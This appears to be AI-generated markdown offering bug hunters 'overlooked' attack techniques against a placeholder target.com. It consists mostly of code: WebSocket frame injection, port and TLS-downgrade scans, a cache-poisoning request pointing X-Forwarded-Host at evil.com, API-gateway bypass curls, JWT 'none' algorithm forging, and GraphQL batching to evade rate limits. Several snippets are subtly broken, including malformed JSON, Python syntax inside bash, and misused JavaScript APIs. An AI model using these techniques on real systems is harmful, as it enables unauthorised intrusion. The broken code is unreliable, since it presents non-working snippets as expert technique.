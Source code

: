 # Advanced Hidden Reconnaissance Techniques & Attack Vectors

> **Key Insight**: Based on the research and computational analysis, here are the most overlooked yet highly effective reconnaissance techniques that even experienced hackers often miss.

![fig](https://ydcusercontenteast.blob.core.windows.net/user-content-youagent-output/6f309fc6-d80b-4161-bfa4-222f01be45b4.png)

## 1. Protocol-Level Hidden Gems 🎯

### WebSocket Frame Injection
```bash
# Advanced WebSocket manipulation
wscat -c wss://target.com/ws
# Inject malformed frames during handshake
{
  "upgrade": "websocket",
  "connection": "upgrade",
  "sec-websocket-key": "AAAA"<payload>
}
```
**Why It's Missed**: Most hunters focus on HTTP/HTTPS but ignore WebSocket vulnerabilities

### GraphQL Field Suggestion Exploitation
```graphql
# Use suggestions to reconstruct disabled introspection
query {
  user(id: "1") {
    <press_tab_here_for_suggestions>
  }
}
```
**Hidden Gem**: Even when introspection is disabled, the suggestion feature can leak schema information

## 2. Infrastructure Analysis Goldmines 🏗️

### DNS Rebinding Points
```python
# Custom DNS rebinding detection
for subdomain in subdomains:
    initial_ip = resolve(subdomain)
    time.sleep(TTL_TIMEOUT)
    second_ip = resolve(subdomain)
    if initial_ip != second_ip:
        print(f"Potential DNS rebinding at: {subdomain}")
```
**Critical Miss**: Hunters often overlook DNS rebinding vulnerabilities in internal networks

### Legacy Protocol Endpoint Discovery
```bash
# Scan for forgotten legacy services
nmap -sV -p21,23,25,69,111,137,139,445 target.com
# Check for protocol downgrade possibilities
openssl s_client -connect target.com:443 -tls1
```
**Why It's Valuable**: Modern tools often miss legacy protocols that are still active

## 3. Advanced Data Flow Analysis 📊

### Cache Poisoning Techniques
```http
# Web Cache Deception payload
GET /profile.php/nonexistent.css HTTP/1.1
Host: target.com
X-Forwarded-Host: evil.com
```
**Hidden Opportunity**: Cache poisoning through path confusion is often overlooked

### API Gateway Bypass Chains
```bash
# Test for direct backend access
for endpoint in endpoints:
    # Try bypassing API gateway
    curl -H "Host: internal-api.target.com" https://target.com$endpoint
    # Test for header-based routing bypass
    curl -H "X-Original-URL: $endpoint" https://target.com/
```
**Critical Finding**: Many hunters miss the connection between gateway bypasses and internal APIs

## 4. Protocol-Specific Attack Chains 🔗

### OAuth State Exposure
```javascript
// Check for state parameter leakage
const callback_urls = await findOAuthCallbacks(target);
for(url of callback_urls) {
    // Test state parameter handling
    checkStateParameterReuse(url);
    checkStateParameterPredictability(url);
}
```
**Why It's Overlooked**: Complex OAuth flows often hide subtle state management issues

### JWT Algorithm Confusion
```python
# Test for algorithm confusion
original_token = jwt.decode(token)
none_token = jwt.encode(
    original_token,
    key='',
    algorithm='none'
)
```
**Hidden Value**: Many applications still vulnerable to algorithm confusion despite its age

## 5. Integration Point Analysis 🔄

### Service Worker Cache Analysis
```javascript
// Inspect service worker caches
async function analyzeCaches() {
    const caches = await caches.keys();
    for(cache of caches) {
        const entries = await caches.match('/*');
        // Check for sensitive data in offline storage
    }
}
```
**Missed Opportunity**: Service worker caches often contain sensitive data

### GraphQL Batching Attacks
```graphql
# Query coalescing for data exposure
query {
  batch_1: sensitiveData(id: "1")
  batch_2: sensitiveData(id: "2")
  ...
  batch_n: sensitiveData(id: "n")
}
```
**Why It's Valuable**: Batch queries can bypass rate limits and reveal data patterns

## Pro Tips for Implementation 💡

1. **Chain Multiple Techniques**:
   - Combine DNS rebinding with SSRF
   - Link cache poisoning with API gateway bypasses
   - Use protocol confusion with auth bypasses

2. **Automation Framework**:
```python
class ReconChain:
    async def execute_chain(self, target):
        dns_results = await self.dns_recon(target)
        protocol_results = await self.protocol_analysis(dns_results)
        cache_results = await self.cache_analysis(protocol_results)
        return self.correlate_findings(cache_results)
```

> **Critical Insight**: The most valuable findings often come from chaining multiple overlooked techniques together rather than focusing on individual vulnerabilities.

## Conclusion
These hidden techniques represent areas that most hunters overlook but can lead to critical findings. Focus on protocol-level analysis, legacy system integration points, and complex attack chains for the best results. Remember: the most valuable vulnerabilities often lie in the connections between different system components rather than in individual elements.
